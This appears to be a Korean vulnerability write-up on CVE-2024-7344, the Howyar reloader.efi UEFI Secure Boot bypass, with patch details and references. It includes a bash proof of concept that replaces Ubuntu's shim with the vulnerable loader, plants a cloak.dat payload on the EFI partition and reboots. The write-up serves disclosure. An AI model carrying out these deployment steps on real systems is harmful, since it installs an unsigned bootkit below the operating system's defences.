


## URL

- https://www.bleepingcomputer.com/news/security/new-uefi-secure-boot-flaw-exposes-systems-to-bootkits-patch-now/

## Target

- SysReturn 10.2.02320240919 이하 버전 등

## Explain

Howyar Reloader UEFI 애플리케이션은 하드 코딩된 경로에서 임의 코드 및 소프트웨어를 실행할 수 있는 취약점이 발생했습니다.

UEFI 애플리케이션은 OS 부팅 전에 실행되는 Bootloader의 유형으로 BIOS의 발전된 형태입니다.

UEFI 애플리케이션은 일반적으로 Microsoft UEFI 인증 기관(CA)에서 디지털 서명을 받아 UEFI 보안 부팅 추가 소프트웨어를 실행하고 드라이버를 로드하는 형태로 동작합니다. UEFI 부트로더는 초기 부팅 관리를 제공하여 OS 파일을 보호된 메모리 영역에 로드하여 실행합니다.

ESET 연구원들은 이 애플리케이션이 서명 검증 없이 하드 코딩된 경로에서 UEFI 소프트웨어를 실행할 수 있다는 사실을 발견했습니다. 서명되지 않은 모든 타사 소프트웨어가 UEFI 컨텍스트에서 높은 권한으로 초기 부팅 단계에서 실행될 수 있습니다.

이 문제는 애플리케이션이 사용자 지정 PE loader를 사용하는 것에서 비롯되는데, 이 때문에 서명되지 않은 모든 UEFI 바이너리를 로드할 수 있습니다. 

또한, `reloader.efi`가 안전한 애플리케이션 실행을 위해 DB를 통한 바이너리를 검증하는 UEFI의 표준 BootServices `LoadImage()`, `StartImage()` API를 사용하지 않기 때문이라고 합니다.



PoC는 아래와 같습니다.

`reloader.efi`는 기본적인 암호화된 XOR PE 이미지를 포함하는 `cloak.dat`에서 수동으로 암호를 해독하고 메모리 바이너리를 로드합니다. 

공격자는 이러한 안전하지 않은 프로세스를 악용하여 EFI 파티션의 앱 기본 OS Boot loader를 취약한 `reloader.efi`로 바꾸고 명목 경로에 악성 `cloak.dat` 파일을 심어 놓을 수 있습니다. 시스템 부팅 시, 사용자 정의 로더는 보안 부팅 검증 없이 악성 바이너리를 해독하고 실행합니다.
```bash
##############################
# check UEFI Secure Boot status
# mokutil --sb-state

# check installed UEFI db certificates
# mokutil --db | grep "Subject:" | sed -E 's/.*CN=//'

# check dbx version
# sudo fwupdmgr get-devices 2> /dev/null | grep -A 6 "UEFI dbx" | head -n 6

## Deploy files to exploit CVE-2024-7344 ####
##############################

ESP="/boot/efi/EFI"
VULN_APP="$HOME/poc/reloader.efi"
PAYLOAD="$HOME/poc/cloak.dat"

# backup shim
sudo cp "$ESP/ubuntu/shimx64.efi" "$ESP/ubuntu/shimx64-orig.efi"

#deploy vulnerable UEFI App and payload file
sudo cp "$VULN_APP" "$ESP/ubuntu/shimx64.efi"
sudo cp "$PAYLOAD" "$ESP/boot/cloak.dat"

sleep 3

sudo reboot
```

재부팅이 되면 익스플로잇이 되는 것을 확인할 수 있습니다.


CVE-2024-7344 취약점은 공격자가 대상 컴퓨터에 위 애플리케이션이 없더라도, 취약한 `reloader.efi` 바이너리만 배포하여 공격을 수행할 수 있습니다.

해당 취약점은 UEFI Revocation List File 패치를 통해 차단되었습니다.

또한, Microsoft 측에서는 2025년 1월 14일에 취약한 UEFI 애플리케이션의 인증서를 폐지하여 차단되었습니다. 이 패치는 Windows 업데이트를 설치한 사용자에게 자동으로 적용됩니다.

## Reference

- https://nvd.nist.gov/vuln/detail/cve-2024-7344
- https://www.eset.com/blog/en/preparing-for-uefi-bootkits-eset-discovery-shows-the-importance-of-cyber-intelligence/
- https://x.com/pascal_gujer/status/1880025194254995636
- https://www.kb.cert.org/vuls/id/529659
